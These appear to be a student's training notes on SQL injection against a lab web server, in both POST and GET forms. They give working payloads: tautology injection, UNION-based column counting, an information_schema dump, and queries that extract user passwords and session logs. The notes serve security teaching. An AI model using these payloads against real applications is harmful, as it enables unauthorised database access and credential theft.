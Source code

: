 ## SQL on database POST Method
    http://10.50.28.178/Union.html
    Ford
    Dodge
    Honda
    Audi
    
    Audi' OR 1='1 -> ends up showing full table.
    now we can try using union -> Audi' Union select 1,2,3,4,5 #
        You're guessing the numbers in union select until you see the table displayed properly.
    UNION select <column>,<column>,<column> FROM <Databases>.<Tables>
    table_schema = Databases names
    table_name = Tables names
    column_name = Columns names

    "Golden statement" -> Audi' Union select table_schema,2,table_name,column_name,5 FROM information_schema.columns #
    (this shows the entire database pretty much)

    If we wanted to view something specific (cost of a car)
    Audi' Union select name,2,cost,type,color FROM session.car #
    ex 2:
    Audi' Union select id,2,name,pass,5 FROM session.user #

## SQL on database GET Method
    ex for this one is selecting something from a dropdown menu
    Pay attention to URL bar, it should change for each selection

    http://10.50.28.178/uniondemo.php?Selection=1&Submit=Submit

    http://10.50.28.178/uniondemo.php?Selection=2 OR 1=1 
    Above, you're selecting something, then adding a boolean condition to true at the end and testing each one.

    Next -> use union to see how many columns are Available.
    http://10.50.28.178/uniondemo.php?Selection=2 UNION select 1,2,3
    
    then "Golden statement" ->
    http://10.50.28.178/uniondemo.php?Selection=2 UNION select table_schema,column_name,table_name FROM information_schema.columns

    final to view something specific ->
    ttp://10.50.28.178/uniondemo.php?Selection=2 UNION select studentID,username,passwd FROM session.userinfo 
    ex 2:
    ttp://10.50.28.178/uniondemo.php?Selection=2 UNION select session_id,user_id,remote_ip FROM session.session_log

    **To find a version of SQL server**
    UNION select 1,2,@@version

## Reverse Engineering
https://sec.cybbh.io/-/public/-/jobs/870086/artifacts/slides/06-reverse-engineering.html
